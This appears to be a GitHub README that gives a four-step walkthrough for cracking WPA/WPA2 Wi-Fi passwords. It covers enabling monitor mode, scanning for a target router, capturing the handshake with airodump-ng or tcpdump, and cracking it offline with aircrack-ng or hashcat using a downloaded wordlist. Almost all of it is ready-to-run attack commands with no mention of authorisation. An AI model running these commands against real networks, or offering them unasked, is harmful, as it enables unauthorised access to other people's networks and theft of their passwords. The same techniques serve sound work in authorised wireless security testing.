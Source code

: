 There are four steps to crack a WPA/WPA2 Wi-Fi network.  

**[(1) Monitor Mode ](#1-monitor-mode)**<br>
**[(2) Target Router](#2-target-router)**<br>
**[(3) Capture Handshake](#3-capture-handshake)**<br>
**[(4) Crack Password](#4-crack-password)**<br>



For an alternative guide see [brannondorsey's](https://github.com/brannondorsey/wifi-cracking/blob/master/README.md).
ALSO TODO : PMKID https://hashcat.net/forum/thread-7717.html

## (1) Monitor Mode 
[Monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) allows us to monitor traffic from networks which we haven't connected to

List monitor mode compliant interfaces

```
airmon-ng
```

Place the interface in monitor mode

```
airmon-ng start wlan0
```

## (2) Target Router
Using monitor mode we listen for nearby wireless routers.  We detail airodump-ng and airport (only one needed).

Make note of your target router's `channel`, `bssid`, and `interface`.

### * Airodump-ng (linux)
Listen to nearby routers

```
airodump-ng wlan0mon
```


### * Airport (Mac OSX)

"Install" Airport utility

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

Listen to nearby routers

```
sudo airport -s
```

## (3) Capture Handshake
We monitor the router network and wait until we capture a successful handshake.  We detail airodump-ng and wireshark (only one needed).

If you've used airodump-ng above continue using airodump-ng below.  Otherwise follow the wireshark section.

### * Airodump-ng
Replace `-c` and `-bssid` values accordingly

Capture beacon frames

```
airodump-ng -c 3 --bssid FF:FF:FF:FF:FF:FF -w capture wlan0mon
```

### * Wireshark
Replace `BSSID`, `IFACE`, and `CHANNEL` values accordingly

Disassociate airport

```sudo airport -z```

Set the channel

```sudo airport -c$CHANNEL```

Capture beacon frames

```sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i $IFACE -w beacon.cap```

Wait for handshakes

```sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i $IFACE -w handshake.cap```

Merge captured files 

```mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap```

upload both files and images (#todo)

## (4) Crack Password
We've capture a successful handshake.  It's time to crack the password that would give us said successful handshake connection.  We detail aircrack-ng and hashcat (only one needed).

### * Wordlist
For cracking the password we'll need a wordlist.  I'm using a wordlist from [berzerk0's Probable Wordlists](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length)

```wget https://raw.githubusercontent.com/berzerk0/Probable-Wordlists/master/Real-Passwords/WPA-Length/Top204Thousand-WPA-probable-v2.txt```

### * Aircrack-ng
```
aircrack-ng -a2 -b FF:FF:FF:FF:FF:FF -w Top204Thousand-WPA-probable-v2.txt capture.cap
```

### * Hashcat
If you have a .cap file you'll need [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases) to transform the .cap to .hccapx.

```
cap2hccapx capture.cap capture.hccapx
```


With your .hccapx you're ready to crack with hashcat.  Run [hashcat](https://hashcat.net/hashcat/).

```
$ ./hashcat64.exe -m 2500 capture.hccapx Top204Thousand-WPA-probable-v2.txt
```

upload both files and images (#todo)